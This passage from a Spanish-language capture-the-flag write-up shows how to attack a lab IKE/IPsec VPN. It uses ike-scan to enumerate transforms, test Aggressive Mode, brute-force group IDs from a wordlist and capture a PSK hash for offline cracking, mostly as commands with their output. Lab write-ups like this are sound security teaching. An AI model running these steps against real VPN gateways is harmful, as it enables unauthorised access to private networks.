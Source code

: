 Cuando nosotros tenemos en frente este servicio, lo que queremos es obtener este hash y tratar de obtener todos los datos necesarios para poder abusar de él (ya sea para `sniffing` o `spoffing` de alguno de los participantes).

Con este objetivo en mente, iniciamos con el reconocimiento del servicio, donde utilizaremos `ike_scan` con los siguientes parámetros:

```js
❯ sudo ike-scan -M 10.10.11.87
Starting ike-scan 1.9.5 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Main Mode Handshake returned
        HDR=(CKY-R=0b15f14be4ac28be)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
Ending ike-scan 1.9.5: 1 hosts scanned in 60.330 seconds (0.02 hosts/sec).  1 returned handshake; 0 returned notify
```

Esto nos muestra la `transformación`, esto contiene información como qué algoritmo hash usa para verificar la llave y __cómo verican identidad__, en este caso: `Auth=PSK` que es muy beneficioso para nosotros (es más fácil atacarlo).

Pero antes de avanzar, debemos probar si el `Aggresive mode` está habilitado, si lo estám podemos interceptar al usuario.

```js
❯ sudo ike-scan -A 10.10.11.87              
Starting ike-scan 1.9.5 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned HDR=(CKY-R=99b1e7d04af429ab) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)
```

Obteniendo un usuario!: `ike`

Para capturar el hash, necesitamos un `group name` válido y una transformación válida, la cual ya tenemos, podemos utilizar `ike-scan` y un pequeño one liner de bash para obtener el ID:

```js 
❯ while read line; do (echo "Found ID: $line" && sudo ike-scan -M -A -n $line 10.10.11.87) | grep -B14 "1 returned handshake" | grep "Found ID:"; done < /usr/share/wordlists/seclists/Miscellaneous/ike-groupid.txt
Found ID: EZ
Found ID: ez
Found ID: 3000
Found ID: 5000
Found ID: abc
```

Y luego elegimos algún ID (para saber si nos devuelve un hash, puedes probar con `sudo ike-scan -P -M -A -n ID 10.10.11.87`) y lo guardamos en un archivo para crackearlo con `psk-crack`.

```js
❯ sudo ike-scan -P -M -A -n 5000 --pskcrack=hash.txt 10.10.11.87
Starting ike-scan 1.9.5 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned
        HDR=(CKY-R=09efdfd76e4e19db)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        KeyExchange(128 bytes)
        Nonce(32 bytes)
        ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
        Hash(20 bytes)
```
